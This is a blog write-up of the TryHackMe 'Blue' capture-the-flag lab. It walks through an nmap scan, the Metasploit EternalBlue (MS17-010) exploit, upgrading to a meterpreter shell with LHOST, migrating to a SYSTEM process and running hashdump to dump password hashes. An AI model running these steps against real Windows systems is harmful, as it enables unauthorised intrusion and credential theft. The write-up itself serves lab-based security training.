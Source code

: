 ```yaml
---
title: "BLUE"
date: 2021-08-28
img_path: /assets/img/Posts/Blue
categories: [Tryhackme, Easy]
tags: [metasploit, eternal blue, nmap]     # TAG names should always be lowercase
---
```


> This was my first write-up which I posted on [Medium](https://medium.com/@YrnCollo/tryhackme-blue-4aff45201ca9) on **Aug 28, 2021**.
{: .prompt-danger }

Hello Everyone!
I’m Collins, a security researcher. This is an article on how to exploit blue a machine on [TryHackMe](https://tryhackme.com/dashboard) made by [DarkStar7471](https://tryhackme.com/p/DarkStar7471).
![image](001.png)_Title page_
## DEPLOYING THE MACHINE
To connect to TryHackMe you will need to download the `OpenVpn` and connect to their VPN. Once connected to their VPN start the machine and we are ready to exploit it. Once you have deployed the machine you would be given an IP address and one hour time (but you can add one hour) as shown in the figure bellow.
![starting machine](002.png)_fig 1.0_
## TASK 1: RECON

We shall start our recon by scanning the machine. The command we shall use is `nmap -sV -A <TARGET_IP>`

![nmap](003.png)_fig 2.0_

We can manually count the number of ports under 1000 on our nmap scan which is 3.

To know what is this machine vulnerable to we shall run `nmap <TARGET_IP>-script vuln` and the result should like as figure 3.0

![fig 3](004.jpeg)_fig 3.0_

As we can clearly see the target is vulnerable to ms17–010

## TASK 2: GAINING ACCESS

Now the fun part is here where we shall gain full access to our target.

The first thing to do is to launch `Metasploit`. This is done by writing `msfconsole` to the terminal as in figure 4.0

![fig 4](005.png)_fig 4.0_

Now we shall use the search feature to search for `ms17_010_` which we had earlier found that the target is vulnerable to. The full path of the exploit as found on the search is `exploit/windows/smb/ms17_010_eternalblue` as shown in the figure 5.0

![fig 5](006.png)_fig 5.0_

Use the show options and see what is required.Set `RHOST` to your target IP.(shown in figure 6.0)
![fig 6](007.png)_fig 6.0_

With that done, run the exploit…

![fig 6.1](008.png)_fig 6.1_

We have to background the shell by `CTRL + Z` or by typing `background`.

![fig 6.2](009.png)_fig 6.2_

## TASK 3: ESCALATE

Alright, it’s now time to upgrade our shell to meterpreter. We shall find our upgrade module by searching for `shell_to_meterpreter` as shown in figure 7.1

![fig 7.0](010.png)_fig 7.0_

Select the `post/multi/manage/shell_to_meterpreter` by the use of `use` command as in figure 7.1

![fig 7.1](011.png)_fig 7.1_

Set `LHOST <Your_IP>`

![fig 7.2](012.png)_fig 7.2_

We use `sessions -i` command to see the current session

![fig 7.3](013.png)_fig 7.3_

We shall use the `run` command to get the meterpreter shell.

![fig](014.png)

Once again use the sessions -i command to see the current session and you’ll notice we have meterpreter shell as in figure 7.4

![fig 7.4](015.png)_fig 7.4_

Now we shall use `set SESSION 2` and start interaction with it.

![fig](016.png)_fig 7.5_

Since we have already connected through a meterpreter session to the target machine we can escalate privileges by the using the command getsystem. Use the `shell` command and run `whoami` then background the session.

![fig](017.png)

List all the process by the command `ps` and migrate to a process that is running at NT AUTHORITY\SYSTEM
To migrate we can use `migrate -N (name_of_the_process)` OR `migrate -P (process_ID)`

![fig](018.png)

## TASK 4: CRACKING

With our elevated meterpreter shell, run the command `hashdump` which will dump all of the passwords on the machine as long as we have the correct privileges.

![hashdamp](019.jpeg)

## TASK 5: FINDING FLAGS

**FLAG 1**

Flag one is located on the root of the machine in which is `C:/`

cat flag1.txt

![flag 1](020.png)_flag 1_

**FLAG 2**

We shall search for sam location on windows which is `C:\Windows\System32\config`

cat flag2.txt

![flag 2](021.png)_flag 2_

**FLAG 3**

We shall use the search function to search for flag3
```
search -f flag*.txt
cat c:\\Users\\Jon\\Documents\\flag3.txt
```
\#THANKS
